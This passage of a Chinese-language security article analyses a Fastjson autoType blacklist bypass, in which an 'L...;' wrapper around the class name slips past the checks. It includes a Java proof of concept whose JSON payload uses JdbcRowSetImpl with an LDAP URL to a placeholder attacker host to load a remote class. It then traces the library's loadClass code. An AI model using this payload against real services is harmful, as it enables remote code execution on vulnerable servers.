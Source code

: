 来看下常见的payload怎么绕过这种情况的把：  
测试使用poc类：  
使用**payload1**：

```java
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  

public class Fastjson125 {  
    public static void main(String[] args) {  
                /*  
 JdbcRowSetImpl调用链  
 */ ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://XX.xx.xx.xxx:port/Evalclass\",\"autoCommit\":true}";  
 JSON.parse(payload);  
 }  
}
```

可以看到这里的payload中的类做了一点改变：`Lcom.sun.rowset.JdbcRowSetImpl;`,前面加了一个`L`后面加了一个`;`

将这个payload带进去，前面的白名单没有匹配上，黑名单也没匹配上，接下来再分析分析checkAutoType()函数，对于两种情况都没匹配上是怎样处置的：  
白黑名单出来完之后部分代码如下：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-cb2b58487c0727d8e689ba8a57ce600c8d29ac98.png)  
首先判断`autoTypeSupport`是否为false，如果不是false，可以看到会执行下面`TypeUtils.loadClass()`代码，调用`com.alibaba.fastjson.util.TypeUtils`类的loadClass()方法，并传入typeName为：**`Lcom.sun.rowset.JdbcRowSetImpl;`** 和一个为null的classLoader对象，跟进该方法：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-430127afa1a2c0d17739e9f93fec5dd61fc18d1c.png)

```java
public static Class<?> loadClass(String className, ClassLoader classLoader) {  
    if (className != null && className.length() != 0) {  
        Class<?> clazz = (Class)mappings.get(className);  
 if (clazz != null) {  
            return clazz;  
 } else if (className.charAt(0) == '[') {  
            Class<?> componentType = loadClass(className.substring(1), classLoader);  
 return Array.newInstance(componentType, 0).getClass();  
 } else if (className.startsWith("L") && className.endsWith(";")) {  
            String newClassName = className.substring(1, className.length() - 1);  
 return loadClass(newClassName, classLoader);  
 } else {  
            try {  
                if (classLoader != null) {  
                    clazz = classLoader.loadClass(className);  
 mappings.put(className, clazz);  
 return clazz;  
 }  
            } catch (Throwable var6) {  
                var6.printStackTrace();  
 }  

            try {  
                ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();  
 if (contextClassLoader != null && contextClassLoader != classLoader) {  
                    clazz = contextClassLoader.loadClass(className);  
 mappings.put(className, clazz);  
 return clazz;  
 }  
            } catch (Throwable var5) {  
            }  

            try {  
                clazz = Class.forName(className);  
```